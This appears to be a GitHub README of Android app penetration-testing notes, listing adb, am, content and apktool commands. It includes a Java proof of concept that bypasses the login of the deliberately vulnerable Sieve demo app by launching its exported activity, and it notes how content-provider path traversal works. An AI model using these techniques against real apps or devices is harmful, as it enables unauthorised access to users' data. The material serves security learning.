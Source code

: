 ### STUFFS TAUGHT:
  - Abusing exported(explicit) and implicit(intents) activities
  - Intent Sniffing
  - Broadcast receiver hacking
  - Content Provider SQL Injection
  - Content Provider Path Traversal Attack

### GENERAL COMMANDS:
  - show running ports in linux: `netstat -tulpen`
  - unzip .apk file: `unzip <file>.apk`
  - telnetting into AVD(one created with android studio):
    - `telnet 127.0.0.1:5554`
    - `auth <auth token excluding the % delimiter (location will be printed)>`
    - `help [command]`

### ADB COMMANDS:
  - print available devices: `adb devices`
  - ways to connect to an android device with adb:
    - `adb shell` 
    - `adb -s <serial number from "adb devices" command>`
    - `adb connect <ip address>`
  - port forwarding: `adb forward tcp:<src_pc_port> tcp:<dest_android_port>`
  - port reversing: `adb reverse tcp:<src_android_port> tcp:<dest_pc_port>`
  - push a file: `adb [-s <device_name>] push <file> /sdcard/ | <dest>`
  - kill adb server: `adb kill-server`
  - install apk: `adb install <filename>.apk`
  - pull a file: `adb pull <file> <dest>`
  - print logcat: `adb logcat`

### ADB SHELL COMMANDS (commands to be executed inside the android device's shell):
  - list apks installed: `pm list packages`
  - list apks installed with its UID(user id): `pm list packages -U`
  - print path of an android package installed: `pm path <packagename>`
  - input text to device: `input text <your_text>`
  - start an activity (implicit intent): `am start-activity -a <action_name> -c <category_name>`
    - Example: `am start-activity -a com.apphacking.changePin -c "android.intent.category.DEFAULT"`
  - start an activity with key and value(of a string) passed to an implicit intent: `am start-activity -a <action_name> -c <category_name> --es "<key>" "<value>"`
    - Example: `am start-activity -a com.apphacking.changePin -c "android.intent.category.DEFAULT" --es "username" "admin"`
    - **NOTE**: In case there are multiple applications that could react to this intent, the device shows a list of apps the user can forward the request to
  - start an activity (explicit intent): `am start-activity -n <package_name>/.<activity_name>`
    - Example: `am start-activity -n com.mwr.example.sieve/.FileSelectorActivity`
    - **NOTE**:
      - `<package_name>` & `<activity_name>` can be found inside the decompiled **AndroidManifest.xml** file obtained using **apktool**.
      - This is possible only if activity is exported(explicit) or if an intent(implicit) is encapsulated
      - Intent sniffing is not possible as explicit intents are targeted within an application and aren't broadcast to other apps
      - A formal way to trigger(in case of demonstrating the vulnerability as a POC) this activity is to create an app and start it as follows:
        > ```java
        > // following code is also present at .\pocs\sieve\SieveLoginBypass
        > // "empty activity" template selected in android studio
        > package com.hacking.sieveloginbypass;
        > import androidx.appcompat.app.AppCompatActivity;
        > 
        > import android.content.ComponentName;
        > import android.content.Intent;
        > import android.os.Bundle;
        > 
        > public class MainActivity extends AppCompatActivity {
        > 
        >  @Override
        >  protected void onCreate(Bundle savedInstanceState) {
        >    super.onCreate(savedInstanceState);
        >    setContentView(R.layout.activity_main);
        > 
        >    // code - to start the following Activity
        >    // com.mwr.example.sieve / .PWList
        >    Intent intent = new Intent();
        >    //intent.setComponent(new ComponentName("<package_name>","<package_name>.<class_name who's exported/intent encapsulated>"));
        >    intent.setComponent(new ComponentName("com.mwr.example.sieve","com.mwr.example.sieve.PWList"));
        >    startActivity(intent);
        >  }
        > }
        > ```
  - Trigger a broadcast event as a different user: `am broadcast --user <uid> -a <action_name>`
  - Trigger a broadcast event with key and value(of a string): `am broadcast -a <action_name> --es "<key>" "<value>"`
  - Trigger a broadcast event: `am broadcast -a <action_name>`
    - Example: `am -a android.intent.action.BOOT_COMPLETED`
    - **NOTE**:
      - Doing this artificially will let all applications receive the action triggered if a broadcast receiver is setup in code or in the AndroidManifest.xml file
      - Some broadcast event needs root permission to be triggered
      - As mentioned previously, we need a poc application for demonstration if a vulnerability is present(refer pocs/BroadcastHacking/ source)
  - Query content provider: `content query --uri content://<authority>/<table>/<row>`
    - Example: `content query --uri content://com.android.contacts/contacts/2`
  - Read a file using a content provider: `content read --uri content://<authority>/<context_directory>/<filename>`
    - **NOTE**: There's a possibility of a path traversal attack if (../)* pattern is used and if not sanitized in the code side which would eventually lead to gain access to a file that was not intended to be accessed(refer pocs/MusicPlayerPathTraversalPOC/ source)


### APKTOOL COMMANDS:
  - decompile apk using apktool: `apktool d <filename.apk>`
  - build apk using apktool: `apktool b <folder_path>/`

### MISC NOTES:
  - **ADB SHELL COMMANDS**:
    - location of start folder in android devices(non rooted): `/sdcard/`
    - location of Android/data folder (non rooted); `/sdcard/Android/data` 
    - location of Android/data folder (rooted); `/storage/emulator/0/Android/data` 
    - using sharedprefs object in code used to create contents inside `/data/data/<app_dir>` that is only accessible by root or the application itself
    - databases created using the SQLiteOpenHelper class are present in: `/data/data/<package>/db/<database_name>.db`
  - **ADB COMMANDS**:
    - hidden folder in linux: `/home/$(whoami)/.android/`
  - cryptography key verification: pub key in `/home/$(whoami)/.android/adbkey.pub` present in pc and pub key in `/data/misc/adb/adb_keys` present in android device(readable only if rooted) must be equal

